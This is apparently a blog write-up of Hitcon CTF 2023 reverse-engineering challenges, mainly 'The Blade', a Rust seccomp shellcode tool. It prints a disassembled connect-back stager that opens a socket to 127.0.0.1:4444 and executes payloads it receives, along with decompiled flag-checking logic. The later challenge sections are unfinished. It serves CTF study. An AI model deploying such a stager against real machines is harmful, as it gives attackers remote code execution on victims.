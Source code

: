 ```yaml
---
title: "Hitcon CTF 2023 writeup"
date: 2023-09-10T00:00:00+07:00
tags:
 - ctf
 - writeup
draft: false
---
```


This is a short writeup for the challenges I managed to solve in Hitcon CTF 2023. The challenges was not impossibly hard as I initially thought, but they was enjoyable nonetheless.

## Full Chain - The Blade
{{< admonition type=info title="Given file" open=true >}}
[chal-the-blade](blade/chal-the-blade)
{{< /admonition >}}


{{< admonition type=info title="Description" open=true >}}
A Rust tool for executing shellcode in a seccomp environment. Your goal is to pass the hidden flag checker concealed in the binary.

Author: wxrdnx

{{< /admonition >}}

### Basic analysis
We are given an ELF file written in Rust. It is some sort of command line tool to run shellcode on a victim machine. To establish a connection to the victim machine, we could use the commands `server`, then `run`. The program will then prompt us to run the following shellcode on the victim machine

```
0:  eb 10                   jmp    0x12
2:  31 c0                   xor    eax,eax
4:  53                      push   rbx
5:  5f                      pop    rdi
6:  49 8d 77 10             lea    rsi,[r15+0x10]
a:  48 31 d2                xor    rdx,rdx
d:  80 c2 ff                add    dl,0xff
10: 0f 05                   syscall
12: 6a 29                   push   0x29
14: 58                      pop    rax
15: 99                      cdq
16: 6a 02                   push   0x2
18: 5f                      pop    rdi
19: 6a 01                   push   0x1
1b: 5e                      pop    rsi
1c: 0f 05                   syscall
1e: 50                      push   rax
1f: 5b                      pop    rbx
20: 48 97                   xchg   rdi,rax
22: 68 7f 00 00 01          push   0x100007f
27: 66 68 11 5c             pushw  0x5c11
2b: 66 6a 02                pushw  0x2
2e: 54                      push   rsp
2f: 5e                      pop    rsi
30: b2 10                   mov    dl,0x10
32: b0 2a                   mov    al,0x2a
34: 0f 05                   syscall
36: 4c 8d 3d c5 ff ff ff    lea    r15,[rip+0xffffffffffffffc5]        # 0x2
3d: 41 ff e7                jmp    r15
```
which is a self-modifying shell code that tells the victim to connect to the server, then read and execute any payload coming from the socket.

Loading the binary into IDA and looking around, we can see multiple comparisions being made to detect the correct command at `seccomp_shell::cli::prompt::h56d4b6fe2f13f522`

```c
switch ( cmdLen )
    {
      case 6LL:
        if ( !(*v12 ^ 'vres' | *(v12 + 4) ^ 're') )     // server
        {
          v15 = seccomp_shell::server::prompt::h2dcdaf613d801878(v33);
          goto LABEL_39;
        }
        goto UNKNOWN_CMD;
      case 5LL:
        if ( *v12 ^ 'lehs' | *(v12 + 4) ^ 'l' )         //shell
          goto UNKNOWN_CMD;
        if ( v33[4] == -1 )
        {
          v15 = seccomp_shell::shell::prompt::h76cecfe7bd3bdf50(v33);
```
After a little digging around, I found a hidden sub-command of the `shell` command inside `seccomp_shell::shell::prompt::h76cecfe7bd3bdf50`
```c
case 'galf':
    v18 = 9LL;
    v19 = "Incorrect";
    if ( agrCount == 2 )
    {
        v51 = seccomp_shell::shell::verify::h898bf5fa26dafbab(v158, *(v179 + 24), *(v179 + 40));// arg are: something, raw_input, input_len
        v53 = v52;
        if ( v51 )
        seccomp_shell::util::print_failed::h41a9d0b5672e2e2f( "Incorrect", 9LL);
        else
        seccomp_shell::util::print_success::h8c458b43bfca28cc("Correct", 7LL);
    .....
    }
```
The flag is verified inside `seccomp_shell::shell::verify::h898bf5fa26dafbab`. The flag is first encrypted using the following routine:
```
- Check if len(flag) == 64
- Perform the following 256 times:
    + Shuffle the flag 3 times, using 3 hardcoded maps.
    + Perform some arthimetic operations on each char of the flag.
```
The encrypted flag is then written to a buffer and sent to the victim. It took me a while to realize that this buffer actually contains shellcode for the victim to run, and the checking routine is performed at the victim side.

The template for the checking shellcode can be found at offset `0x62b2b`. It first reads the first 4 bytes of `/bin/sh` (which are the ELF magic bytes), the first 4 bytes of `/etc/passwd` (which is always `root`) and 4 bytes from `/dev/zero` and uses those constants to perform another arthimetic operation on the encrypted flag. The final result is compared with a constant (which is embed in the shellcode by the server) 

```c
v14 = (~zero >> 29) / 0x29uLL;
result = (v14 ^ ~__ROR4__(root ^ (elfHeader + encrypted_flag), 11)) == constant_from_server;
v16 = sys_write(socket, &result, 8uLL);
```

### Solving:
Since the shuffles is deterministic, I input the following string to the program: `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789[]`. Each char only appear once in the string, so by debugging pass the 3 shuffles, we can know for sure where a char would be after the operations.
```py
original = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789[]"
shuffled = "rP5V[azMm8xwY1SGnHtb]OcZyvDpRgN6kd3q9LKE4QTfXhB0UuoCs2JiejFl7AIW"
```
With this, we can reverse the shuffles.

## LessEQualmore

{{< admonition type=info title="Given file" open=true >}}
[lessequalmore](lessequalmore/lessequalmore)

[chall.txt](lessequalmore/chal.txt)
{{< /admonition >}}


{{< admonition type=info title="Description" open=true >}}
Sometime, less instruction equal more instruction ...

Author: bronson113

{{< /admonition >}}

## CrazyArcade

{{< admonition type=info title="Given file" open=true >}}
[lessequalmore](lessequalmore/lessequalmore)

[chall.txt](lessequalmore/chal.txt)
{{< /admonition >}}


{{< admonition type=info title="Description" open=true >}}
I was 4 dan in Crazy Arcade without using any script, but it is yet another Crazy Arcade.
Note: Although this challenge is not malicious, it may make your system vulnerable, so please run it in your VM.

Author: zeze

{{< /admonition >}}

Will get back to writing soon